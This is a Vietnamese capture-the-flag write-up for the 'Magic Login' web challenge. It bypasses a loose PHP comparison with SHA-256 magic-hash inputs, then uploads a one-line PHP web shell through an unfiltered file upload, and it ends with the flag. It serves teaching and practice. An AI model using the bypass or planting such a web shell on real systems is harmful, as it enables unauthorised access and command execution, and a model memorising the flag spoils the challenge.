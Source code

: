 <h1 href="https://battle.cookiearena.org/challenges/web/magic-login">Magic Login</h1>

```php
if(isset($_POST['submit'])){ 
    $usr = mysql_real_escape_string($_POST['username']); 
    $pas = hash('sha256', mysql_real_escape_string($_POST['password'])); 
    
    if($pas == "0"){ 
        $_SESSION['logged'] = TRUE; 
        header("Location: upload.php"); // Modify to go to the page you would like 
        exit; 
    }else{ 
        header("Location: login_page.php"); 
        exit; 
    } 
}else{    //If the form button wasn't submitted go to the index page, or login page 
    header("Location: login_page.php");     
    exit; 
}
```
Cả 2 đầu vào sử dụng phương thức <b>mysql_real_escape_string</b> để filter các ký tự đặc biệt, nhưng thực ra chẳng liên quan gì tới SQLI.
Mà lỗi nằm ở 
``` php
if($pas == "0")
```
Đây là lỗi <b>php juggling</b> khi php cố gắng ép kiểu dữ liệu.

Nếu như <b>$pas</b> sau khi được sha256 có dạng <b>0exxxxxxx....</b> thì ký tự đầu tiên của <b>$pas</b> sẽ được đem so sánh với <b>"0"</b>
=>ByPass

Tôi đã tìm được đầu vào thỏa mãn:
<table>
    <tr>
        <td>Hash</td>
        <td>Number / String</td>
        <td>Magic Hash</td>
    </tr>
    <tr>
        <td>SHA-256</td>
        <td>34250003024812</td>
        <td>0e46289032038065916139621039085883773413820991920706299695051332</td>
    </tr>
    <tr>
        <td>SHA-256</td>
        <td>TyNOQHUS</td>
        <td>0e66298694359207596086558843543959518835691168370379069085300385</td>
    </tr>
</table>

<h3>Sau khi vào được trang /upload.php</h3>

```php
if(isset($_FILES['fileData'])){
    if($_FILES['fileData']['size'] > 1048576){
        $errors='File size must be excately 1 MB';
    }

    if(empty($errors)==true){
    $uploadedPath = "uploads/".rand().".".explode(".",$_FILES['fileData']['name'])[1];
    move_uploaded_file($_FILES['fileData']['tmp_name'],$uploadedPath);
    echo "File uploaded successfully\n";
    echo '<p><a href='. $uploadedPath .' target="_blank">File</a></p>';
    }else{
        echo $errors;
    }
}
```
Nhận thấy file upload lên không được filter extension, upload file php với payload sau:
```php
<?php system($_GET['cmd'])>;?>
```
![](./img/1.png)

```
FLAG: CHH{PHP_m4g1c_tr1ck_0lD_but_g0lD_fdc8987c7c633ce8f9f5f2ae4599a9c8}
```